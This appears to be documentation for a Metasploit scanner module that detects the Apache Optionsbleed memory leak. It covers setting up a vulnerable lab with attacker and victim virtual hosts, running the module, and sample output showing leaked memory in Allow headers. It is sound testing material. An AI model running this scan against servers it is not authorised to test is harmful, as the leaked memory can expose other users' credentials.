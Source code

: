 ## Description

This module scans for the Apache optionsbleed vulnerability where the Allow response header
returned from an OPTIONS request may bleed memory if the server has a .htaccess file
with an invalid Limit method defined.

### Vulnerable Application Setup

This setup is slightly more complex than a default instance, but potentially gives more interesting results.  It is more or less based on a
blog post by [securitysift.com](https://www.securitysift.com/testing-optionsbleed/).

This setup was performed on an Ubuntu 16.04 server with apache 2.4.18-2ubuntu3.1. 
Apache was patched in [2.4.18-2ubuntu3.5](https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-9798.html)

1. First thing we'll do is create 2 virtual host directories with content

    ```
    sudo mkdir -p /var/www/html/s1
    sudo mkdir -p /var/www/html/s2
    
    echo "<Limit method0 method1 method2 method3 method4 method5>
      Allow from all
    </Limit>" | sudo tee /var/www/html/s1/.htaccess
    
    echo "
    <html>
    <h1>Attacker</h1>
    </html>
    " | sudo tee /var/www/html/s1/index.html
    
    echo "
    <?php
            \$user = \$_POST[\"username\"];
            \$pwd = \$_POST[\"password\"];
            \$otherdata = \$_POST[\"otherdata\"];     
    ?>
            <form action=\"index.php\" method=\"POST\">
                    Otherdata: <input type=\"text\" name=\"otherdata\"><br>
                    Username: <input type=\"text\" name=\"username\"><br>
                    Password: <input type=\"text\" name=\"password\"><br>
                    <input type=\"submit\" value=\"Submit\">
            </form>
    " | sudo tee  /var/www/html/s2/index.php
    ```

2. Now we'll modify apache to have 2 virtual hosts, an attacker on port 80 and victim on port 81

    ```
    sudo echo "Listen 80
    Listen 81
    
    <VirtualHost *:81>
      #victim
      DocumentRoot /var/www/html/s2
      ErrorLog \${APACHE_LOG_DIR}/error_victim.log
      CustomLog \${APACHE_LOG_DIR}/access_victim.log combined
    </VirtualHost>
    <VirtualHost *:80>
      #attacker
      DocumentRoot /var/www/html/s1
      ErrorLog \${APACHE_LOG_DIR}/error_attacker.log
      CustomLog \${APACHE_LOG_DIR}/access_attacker.log combined
      <Directory /var/www/html/s1>
        AllowOverride All
      </Directory>
    </VirtualHost>
    " | sudo tee /etc/apache2/sites-enabled/000-default.conf
    ```

3. Restart the service

  ```sudo service apache2 restart```

4. We'll want to generate some traffic to the victim, so we'll use an infinite loop to send fake login requests

    ```
    while true; do curl -d "otherdata=otherdata&username=admin&password=passw0rd" -X POST -s http://[IP]:81/index.php > /dev/null; done
    ```

Now you have 2 virtual hosts, a vulnerable `.htaccess` file on port 80 in root, and memory being churned to simulate a live host.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/apache_optionsbleed```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

### Using the setup mentioned previously

```
[*] Processing optionsbleed.rc for ERB directives.
resource (optionsbleed.rc)> use auxiliary/scanner/http/apache_optionsbleed
resource (optionsbleed.rc)> set rhosts 192.168.2.104
rhosts => 192.168.2.104
resource (optionsbleed.rc)> set threads 10
threads => 10
resource (optionsbleed.rc)> run
[+] Request 1: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,,HEAD,��)�~,HEAD,,HEAD,POST
[+] Request 2: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,,HEAD,���~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,��,�~,HEAD,POST
[+] Request 3: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,8�)�~,HEAD,POST
[+] Request 4: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,�4�~,���~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,,HEAD,,HEAD,��)�~,HEAD,POST
[+] Request 5: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,���~,,HEAD,,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 6: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,8�)�~,HEAD,��,�~,HEAD,POST
[+] Request 7: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,,HEAD,���~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 8: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,,HEAD,�4�~,���~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 9: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,���~,,HEAD,���~,8�)�~,HEAD,8�)�~,HEAD,,HEAD,8�)�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 10: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 11: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,�4�~,���~,,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,POST
[+] Request 13: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,�T�~,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 14: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,��~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,,HEAD,allow,HEAD,,HEAD,,HEAD,POST
[+] Request 15: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,8�)�~,HEAD,POST
[+] Request 16: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,�4�~,���~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 18: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,,HEAD,�T�~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,,HEAD,��)�~,HEAD,,HEAD,POST
[+] Request 19: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,,HEAD,�T�~,�4�~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,,HEAD,,HEAD,POST
[+] Request 20: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,�T�~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,��,�~,HEAD,,HEAD,��)�~,HEAD,,HEAD,POST
[+] Request 21: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,�4�~,,HEAD,8�)�~,HEAD,��,�~,HEAD,POST
[+] Request 22: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,���~,�T�~,���~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,POST
[+] Request 23: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,,HEAD,�4�~,���~,8�)�~,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,POST
[+] Request 24: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,,HEAD,��)�~,HEAD,,HEAD,POST
[+] Request 25: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,�T�~,���~,,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,POST
[+] Request 26: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��,�~,HEAD,,HEAD,��)�~,HEAD,,HEAD,POST
[+] Request 27: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,�4�~,���~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 28: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,,HEAD,allow,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,allow,HEAD,POST
[+] Request 29: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,��~,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,,HEAD,allow,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,��)�~,HEAD,POST
[+] Request 30: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�4�~,8�)�~,HEAD,POST
[+] Request 31: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,���~,�T�~,,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,POST
[+] Request 32: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,,HEAD,�4�~,8�)�~,HEAD,8�)�~,HEAD,,HEAD,,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,POST
[+] Request 33: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,���~,��~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 34: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,���~,�4�~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 35: [OptionsBleed Response] -> GET,HEAD,OPTIONS,,HEAD,���~,���~,���~,,HEAD,,HEAD,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,,HEAD,POST
[+] Request 36: [OptionsBleed Response] -> GET,HEAD,OPTIONS,��~,�4�~,���~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,��,�~,HEAD,��,�~,HEAD,��,�~,HEAD,��)�~,HEAD,POST
[+] Request 38: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,���~,8�)�~,HEAD,8�)�~,HEAD,POST
[+] Request 39: [OptionsBleed Response] -> GET,HEAD,OPTIONS,���~,���~,��~,8�)�~,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,allow,HEAD,,HEAD,,HEAD,,HEAD,,HEAD,POST
[+] Request 40: [OptionsBleed Response] -> GET,HEAD,OPTIONS,�T�~,���~,,HEAD,8�)�~,HEAD,8�)�~,HEAD,,HEAD,��,�~,HEAD,,HEAD,allow,HEAD,,HEAD,,HEAD,POST
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Cleanup

If the server is NOT vulnerable, the apache error logs will contain an entry similar to this:

```
[Wed Sep 27 19:54:43.183978 2017] [core:alert] [pid 17659] [client 2.2.2.2:43546] /var/www/html/s1/.htaccess: Could not register method 'method0' for <Limit from .htaccess configuration, referer: http://1.1.1.1/
```
